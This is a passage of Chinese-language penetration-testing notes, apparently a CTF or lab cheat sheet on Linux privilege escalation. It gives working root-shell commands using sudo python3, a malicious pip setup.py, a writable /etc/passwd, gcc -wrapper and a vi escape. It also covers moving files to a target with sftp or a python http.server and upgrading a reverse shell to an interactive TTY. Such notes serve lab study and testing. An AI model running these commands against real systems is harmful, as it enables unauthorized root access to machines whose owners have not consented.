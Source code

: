 ```
sudo /usr/bin/python3 -c 'import os;os.execl("/bin/sh","sh","-p")'
```

#### pip提权

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip install $TF
```

#### 写入密码

当/etc/passwd可以写入的时候，可以把root的密码设置为空，或者是openssl passwd -1去生成密码，把root的密码改了

#### gcc提权

```
sudo gcc -wrapper /bin/sh,-s .
```

#### vi逃逸

前提就是可以root执行vi，直接打开vi写入:!sh，本质是打开了一个shell

### 常用挤巧

#### 文件上传or下载

个人常用sftp

```
1.SFTP建立连接
sftp username@ip

2.上传
上去之后直接put

3.下载
上去之后直接get，或者是mget * 可以得到当前目录下的全部文件
```

还有一个方法，本地利用python起一个服务，靶机利用wget下载

```
python3 -m http.server 80
```

#### shell

当你反弹shell准备提权，发现shell不是交互式的

```
/usr/bin/script -qc /bin/bash /dev/null
```

直接一步到位
